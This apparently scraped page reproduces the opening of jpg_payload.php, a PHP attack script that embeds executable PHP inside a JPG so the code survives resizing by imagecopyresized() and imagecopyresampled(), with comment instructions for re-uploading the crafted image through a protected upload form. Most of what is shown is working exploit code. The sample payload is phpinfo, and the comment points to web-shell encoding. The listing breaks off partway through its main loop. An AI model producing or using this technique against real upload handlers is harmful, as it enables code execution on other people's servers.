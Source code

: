 upload jpg
Script jpg_payload.php written by foreign experts

<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */

    $miniPayload = "<?=phpinfo();?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp =
                    substr($outStream, 0, $startPos) .
                    $miniPayload .
                    str_repeat("\0",$nullbytePayloadSize) .
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {